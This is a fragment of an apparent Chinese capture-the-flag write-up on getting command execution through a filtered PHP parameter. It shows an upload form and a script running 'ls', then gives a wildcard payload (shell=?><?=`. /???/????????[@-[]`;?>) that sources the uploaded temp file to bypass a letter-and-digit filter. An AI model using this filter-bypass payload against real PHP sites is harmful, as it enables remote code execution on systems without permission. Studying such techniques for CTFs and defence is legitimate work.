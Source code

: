 ```
<!--链接是当前打开的题目链接-->

  <label for="file">文件名：</label>

  <input type="file" name="file" id="file"><br>

  <input type="submit" name="submit" value="提交">

</form>

</body>

</html>
```

 

在这个文件下写入需要调用的命令

```
#!/bin/sh

ls
```

意思是调用ls命令

当然肯定还是要先获取文件内容我们默认上传的文件会保存在/tmp目录下

命名为/tmp/phpxxxxxx

利用``内$会解析的特性,通过位运算,执行系统命令

`[@-[]`是linux下面的匹配符，是进行匹配的大写字母。

所以

```
shell=?><?=`. /???/????????[@-[]`;?>
```

 用+代替空格绕过
